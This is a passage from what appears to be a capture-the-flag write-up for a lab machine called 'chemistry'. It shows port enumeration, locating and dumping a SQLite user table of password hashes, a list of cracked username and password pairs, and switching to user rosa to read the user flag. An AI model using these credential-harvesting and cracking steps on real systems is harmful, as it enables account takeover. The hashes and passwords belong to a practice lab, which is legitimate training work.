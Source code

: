 ```bash
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

Something also running locally at 8080. We'll investigate later. Onto the database.

```bash
app@chemistry:~$ find / -name "database.db" 2>/dev/null
/home/app/instance/database.db
app@chemistry:~$ cd instance
app@chemistry:~/instance$ sqlite database.db 

Command 'sqlite' not found, but can be installed with:

apt install sqlite
Please ask your administrator.

app@chemistry:~/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|raccoon|3f5b31f8506cfb9a606553978da02d9f
```

Use crackstation and find the following pairs:

```
rosa:unicorniosrosados
carlos:carlos123
peter:peterparker
victoria:victoria
raccoon:raccoon (me)
```

```bash
app@chemistry:~/instance$ su rosa
Password: 
rosa@chemistry:/home/app/instance$ cd ~
rosa@chemistry:~$ cat user.txt
a9a5ae09ed----------------------
```
